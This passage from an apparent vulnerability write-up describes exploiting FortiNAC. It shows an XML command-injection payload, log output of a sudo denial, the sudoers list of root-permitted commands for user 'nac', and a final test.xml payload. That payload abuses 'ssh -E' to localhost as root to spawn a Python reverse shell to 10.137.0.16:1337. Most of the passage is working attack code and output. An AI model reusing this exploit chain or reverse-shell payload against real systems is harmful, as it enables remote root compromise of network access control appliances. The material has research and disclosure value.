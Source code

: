 Deliver and....nothing, no new file `/tmp/RCE` created. Luckily, extended logging is enabled by default at FortiNACs and found in e.g. `/bsc/logs/output.processManager`.

```log
yams.CampusManager INFO :: 2023-03-26 10:53:09:958 :: #386 :: commandName = bash -c $@|bash installAgentPackage echo touch /tmp/RCE
buffer = 
time = 0
retval = false

yams.CampusManager INFO :: 2023-03-26 10:53:09:958 :: #386 :: isAllowedCommand(bash -c $@|bash installAgentPackage echo touch /tmp/RCE) true
yams.CampusManager INFO :: 2023-03-26 10:53:09:958 :: #15 :: Running command = bash -c $@|bash installAgentPackage echo touch /tmp/RCE 
yams.CampusManager INFO :: 2023-03-26 10:53:10:959 :: #15 :: Sorry, user nac is not allowed to execute '/bin/bash -c $@|bash installAgentPackage echo touch /tmp/RCE' as root on localhost.localdomain.
```

`isAllowedCommand(bash -c $@|bash installAgentPackage echo touch /tmp/RCE) true` sounds good but this is new to us: `Sorry, user nac is not allowed to execute '/bin/bash -c $@|bash installAgentPackage echo touch /tmp/RCE' as root on localhost.localdomain.`

### Sudo Restriction Bypass

Being able to execute commands with `sudo` usually is a nice gift for attackers but you can also restrict a lot of things to make someones life a bit harder. For the user `nac` an extra "sudoers" file exists at `/etc/sudoers.d/nac`. This file contains a lot of stuff but I'll only present the relevant pieces again.

```bash
...
User_Alias NAC_MGMT = tomcat, nac
...
Cmnd_Alias NAC_MGMT_COMMANDS = \
                         /bin/cp, \
                         /usr/bin/nmap, \
                         /usr/bin/scp, \
                         /usr/bin/ssh, \
                         /usr/bin/openssl, \
                         /bin/ln, \
                         /bin/hostname, \
						 ...
```

The `nac` user has **a lot of commands** available to be executed with root privileges. I didn't even know which one to choose first :-P.

But starting from the very beginning of the list, I hit the `ssh` command within seconds. SSH to localhost with appending an arbitrary command should be as easy as this `test.xml`.

```xml
<?xml version="1.0" encoding="utf-8"?>
<commandName>ssh -E installAgentPackage root@localhost
<arg>
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.137.0.16",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
</arg>
</commandName>
```
